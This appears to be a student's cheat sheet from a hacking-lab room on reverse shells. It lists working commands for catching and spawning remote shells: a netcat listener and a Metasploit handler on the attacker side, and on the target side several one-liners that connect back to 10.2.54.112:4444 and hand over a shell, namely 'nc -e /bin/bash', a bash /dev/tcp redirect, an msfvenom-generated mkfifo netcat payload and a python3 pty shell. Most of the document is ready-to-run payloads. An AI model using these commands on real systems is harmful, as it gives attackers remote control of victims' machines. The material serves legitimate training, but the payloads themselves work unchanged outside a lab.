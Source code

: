 A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system’s vulnerabilities to initiate a shell session and then access the victim’s computer. The goal is to offer the attacker machine a shell instead of my machine requesting it from the target which would be much easier to evade firewalls.

# Useful Commands:

## On the Attacker machine

To start a netcat listener we use  the following command

```bash
sudo nc -lvnp <port-number>
```

or we can use the `exploit/multi/handler` module which is like socat and netcat, used to receive reverse shells, It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads, use the following Metasploit command to use the module:

```msfconsole
use exploit/multi/handler
```
## On the target machine

To connect to a listener and offer it a shell we can use this nc command:

```bash
nc -e /bin/bash ip_here port_here
```

Or we can use:

```bash
 #!/bin/bash  
 bash -i >& /dev/tcp/10.2.54.112/4444 0>&1
```

 or we can use msfvenom to generate a payload, noting that the syntax should be in this format `msfvenom -p <PAYLOAD> <OPTIONS>`, and the naming convention for the payload should be like this `<OS>/<arch>/<payload>`.:

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R
```

 This would be the generated payload after using the previous command: 

```bash
mkfifo /tmp/ttlrs; nc 10.2.54.112 4444 0</tmp/ttlrs | /bin/sh >/tmp/ttlrs 2>&1; rm /tmp/ttlrs
```

 or we can use this payload which uses python3 and is very useful and handy reverse shell:

```bash
export RHOST="10.2.54.112";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'
```

# Extra:

**Important Note :** 
This note was taken from the network services - Telnet room:

The netcat reverse shell will not close target-side after you close it locally
so the program will be blocked (hanging).
The python3 shell is a lot smarter, and it will notice when it's disconnected
and stop the process.
After it stopped, it means the program is ready for the next command.

Big Thanks for Edu